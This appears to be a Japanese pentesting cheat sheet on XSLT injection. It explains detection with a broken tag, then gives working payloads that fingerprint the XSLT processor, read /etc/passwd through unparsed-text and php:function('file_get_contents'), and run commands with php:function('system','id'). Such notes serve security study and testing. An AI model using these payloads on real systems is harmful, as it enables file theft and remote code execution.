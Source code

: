 
## 概要
- ユーザー入力がXSLデータに挿入され、それがXSLTプロセッサによって出力生成時に処理されることで、意図しない動作が引き起こされる攻撃
- 攻撃者はこれにより、任意のXSL要素を挿入して実行させることが可能になる


## 確認
- ユーザーの入力があるか
- サニタイズされずに表示されるか
	- モジュール情報をXMLドキュメントに保存し、XSLTでそのデータを表示している場合、XSLT処理の前にユーザー名が無処理で挿入されていれば、XSLTインジェクションの脆弱性が存在する可能性がある
- **壊れたXMLタグを注入して、アプリケーションにエラーを発生させてみる**
	- `<`
	- このリクエストに対して、アプリケーションは **500 Internal Server Error** を返してくると、なんらかのセキュリティの問題が存在している証拠

## 情報漏洩

使用されているXSLTプロセッサに関する基本情報を取得するため、以下のようなXSLT要素を注入する
```xml
Version: <xsl:value-of select="system-property('xsl:version')" />
<br/>
Vendor: <xsl:value-of select="system-property('xsl:vendor')" />
<br/>
Vendor URL: <xsl:value-of select="system-property('xsl:vendor-url')" />
<br/>
Product Name: <xsl:value-of select="system-property('xsl:product-name')" />
<br/>
Product Version: <xsl:value-of select="system-property('xsl:product-version')" />
```

Webアプリケーションは以下のようにバージョンやベンダーの詳細を含んだレスポンスを返してくる
- ここから、アプリケーションは **libxslt ライブラリ**を使用しており、**XSLTバージョン1.0**をサポートしていることが推測できる
![](https://i.imgur.com/gtRr6tz.png)

### Local File Inclusion 
- ローカルファイルを読み取るために、いくつかの関数を使うことができる
	- XSLTのバージョンやライブラリの設定によって異なる


unparsed-text 関数を使うとファイルを読み取れる
- この関数は **XSLT 2.0以降**で導入されたものなので、使えない場合がある
```xml
<xsl:value-of select="unparsed-text('/etc/passwd', 'utf-8')" />
```

XSLTライブラリが PHP関数の呼び出しをサポートしている場合、以下のようにして file_get_contents 関数を使うことができる
```xml
<xsl:value-of select="php:function('file_get_contents','/etc/passwd')" />
```

## RCE
XSLTプロセッサがPHP関数をサポートしている場合、RCEできる
たとえば、system 関数を呼び出して以下のように id コマンドを実行できる
```xml
<xsl:value-of select="php:function('system','id')" />
```
